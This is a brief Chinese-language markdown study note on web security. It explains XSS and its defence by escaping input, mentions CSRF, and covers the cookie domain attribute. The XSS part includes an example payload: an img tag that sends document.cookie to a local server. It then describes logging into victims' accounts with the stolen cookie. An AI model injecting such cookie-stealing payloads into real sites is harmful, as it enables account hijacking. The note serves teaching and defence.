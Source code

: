 <!--
 * @Date: 2019-11-26 14:47:27
 * @LastEditors: PoloHuang
 * @LastEditTime: 2020-09-16 11:34:38
-->
## 安全防范知识点
```js
1.XSS
简单点来说，就是攻击者想尽一切办法将可以执行的代码注入到网页中
解决办法：对于用户的输入应该是永远不信任的。最普遍的做法就是转义输入输出的内容，对于引号、尖括号、斜杠进行转义
https://blog.csdn.net/m0_37631322/article/details/81346335

实例操作：
一个评论功能，通过提交一条带有script脚本的评论，这条评论可以是<script>alert(1)</script>
这种，如果提交上去了那么每次进入页面的用户都会弹出这个弹窗。也可以插入一张图片<img src="http://127.0.0.1:3000/?content=" +document.cookie> 只要用户进入我们就可以在我们的服务器获取到该用户的用户信息cookie，这样我们通过editthiscookie插件就可以登录别人的帐号了
2.CSRF

https://www.cnblogs.com/lsj-info/p/9479755.html
```

## cookie的domain属性
www.baidu.com已经登录，如何让tieba.baidu.com直接登录: 可以设置cookie的domain为.baidu.com
```
https://blog.csdn.net/longgege001/article/details/81274088
```